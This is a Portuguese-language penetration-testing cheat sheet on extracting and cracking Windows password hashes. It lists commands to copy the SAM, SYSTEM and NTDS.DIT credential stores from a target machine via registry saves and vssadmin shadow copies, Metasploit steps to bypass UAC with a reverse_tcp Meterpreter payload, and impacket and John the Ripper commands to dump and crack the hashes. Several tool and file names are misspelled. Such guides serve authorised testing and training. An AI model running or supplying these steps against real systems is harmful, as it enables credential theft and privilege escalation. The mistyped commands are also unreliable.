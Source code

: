 # Windows Hashes

## Padrão de Hash do Windows

``<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:``

LM Hash vazio: aad3b435b51404eeaad3b435b51404ee

## Obtendo hashes de senhas do Windows

Nos sistemas Windows são utilizados até 3 arquivos para armazenamento e manipulação dos usuários e senhas dependendo da versão do sistema operacional. Os arquivos são:

**SAM - Security Account Manager** *(Windows XP/Vista/7/8/10)*
- Armazena as contas de usuários
- %SystemRoot/system32/config/sam

**NTDS.DIT** *(Windows Server)*
- Armazena os dados do AD incluindo as contas de usuários
- %SystemRoot/ntds/ntds.dit

**SYSTEM** *(Windows Server/XP/Vista/7/8/10)*
- Arquivo necessário para decriptar o SAM/NTDS.DIT
- %SystemRoot/system32/config/system

Todos esses arquivos são bloqueados pelo sistema enquanto o mesmo estiver em execução, abaixo algumas técnicas para burlar essa proteção.

**Windows XP**

Essa técnica funciona apenas em versões antigas do Windows. Verifique se existe o diretório *%SystemRoot%/Windows/repair* onde existe uma cópia do sistema operacional e faça a busca pelos arquivos **sam** e **system**.

A desvantagem de utilizar os arquivos da pasta *repair* é que pode ocorrer do arquivo sam estar desatualizado, não retornando todos os usuários atuais do sistema.

**Windows XP/Vista/7/8/10**

Para baixar os arquivos **sam** e **system** através do registro do Windows, utilize os *comandos abaixo direto no terminal da máquina alvo:

``reg save hklm\sam samOK``

``reg save hklm\system systemOK``

Esse método consegue retornar o arquivo sam com todos os usuários atuais do sistema.

**Necessário permissões para executar comandos como administrador*

**Windows Server/7/8/10**

Em versões mais modernas do Windows assim como em versões do Windows Server, podemos utilizar a ferramenta ``vssadmin`` para criar uma cópia (shadow) do sistema operacional e fazer o download dos arquivos **sam**, **ntds.dit** e **system**.

Verificar os volumes do sistema operacional
``vssadmin list volumes``

Montar uma cópia do volume alvo
``vssadmin create shadow /for=c:``

Copiar os arquivos da cópia para o disco local

``copy \\?\VOLUME_COPIA\windows\ntds\ntds.nit C:\ntds.nit``

``copy \\?\VOLUME_COPIA\windows\system32\config\sam C:\sam``

``copy \\?\VOLUME_COPIA\windows\system32\config\system C:\system``

## Bypass UAC (Executar como Administrador)

**Enviar solicitação ao usuário - Meterpreter**

Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/ask** e com o comando ``set SESSION 1`` defina que o módulo será executado na sessão que está em background.

Execute o módulo com o comando ``run``, dessa forma será enviada uma mensagem para a máquina alvo solicitando a execução como administrador.

**Nova sessão como administrador - Meterpreter**

Nessa técnica vamos utilizar dois módulos, o primeiro é um exploit que irá realizar o bypass no UAC e o segundo é o payload que será executado para nos retornar outra shell, mas dessa vez como administrador.

Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/bypassuac_fodhelper**. Faça a configuração do target de acordo com o alvo e selecione a sessão que está em background com o comando ``set SESSION 1``.

Agora definimos o payload com ``set payload windows/x64/meterpreter/reverse_tcp`` e faça a configuração padrão.

Execute o comando ``exploit`` e aguarde o inicio de uma nova sessão com os privilégios de administrador.

## Visualizar Hashes

Para visualizar os hashes que estão nos arquivos sam e ntds.dit utilize uma das opções:

**Windows 2k/NT/XP/Vista**

``samdump2 SYSTEM SAM``

**Windows 2k/NT/XP/Vista/7/8/10/Server**

``impacket-secretdump -sam SAM -system SYSTEM LOCAL``

**Windows Server**

``impacket-secretdump -ntds ntds.dit -system SYSTEM LOCAL``

## Quebra de Hashes

Para realizar a quebra dos hashes podemos utilizar a ferramenta john The Ripper.

**Quebra de Hash sem LM** *(aad3b435b51404eeaad3b435b51404ee)***:**
``jhon --format=nt hash``

**Quebra de Hash com LM:**
``jhon --format=lm hash``
